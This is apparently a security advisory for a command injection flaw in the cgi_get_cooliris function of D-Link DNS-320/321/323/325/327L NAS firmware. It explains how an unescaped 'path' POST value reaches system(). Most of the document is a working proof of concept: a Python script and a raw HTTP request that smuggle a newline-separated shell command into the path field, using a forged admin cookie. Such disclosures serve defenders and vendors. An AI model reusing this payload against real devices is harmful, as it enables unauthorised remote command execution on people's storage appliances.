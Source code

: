 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L  all firmware version
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_get_cooliris function of the file /cgi-bin/photocenter_mgr.cgi.  The variable `path` is passed from a POST request and is assigned to `v2` via the `sprintf` function at line 49. It is then passed into `v3` and invoked by the `system` command,  the `SpecSymbol2BackSlash` function did not work  which leads to command execution.  
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723391120521-afdfd69b-511b-4c2f-8390-f7d2b26d1056.png#averageHue=%23fbfbfa&clientId=u6631d2ac-2a9c-4&from=paste&height=184&id=uea6fcc03&originHeight=245&originWidth=829&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=41682&status=done&style=none&taskId=u15c3f59e-db46-4a08-a82e-0d06403f548&title=&width=622.5555419921875)

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723391105248-02f05131-3814-4ae2-b941-6c9ed09f08f0.png#averageHue=%23fdfdfd&clientId=u6631d2ac-2a9c-4&from=paste&height=287&id=ubf729548&originHeight=506&originWidth=1088&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=55756&status=done&style=none&taskId=u4a8ff842-0edc-4241-811a-55c72d1c80d&title=&width=617.5555419921875)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/photocenter_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_get_cooliris&path=%0atouch%09/tmp/333%0a&username=/tmp/111&rp=10&page=10&r=10&date=19&album_name=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/photocenter_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_get_cooliris&path=%0atouch%09/tmp/333%0a&username=/tmp/111&rp=10&page=10&r=10&date=19&album_name=/tmp/
```



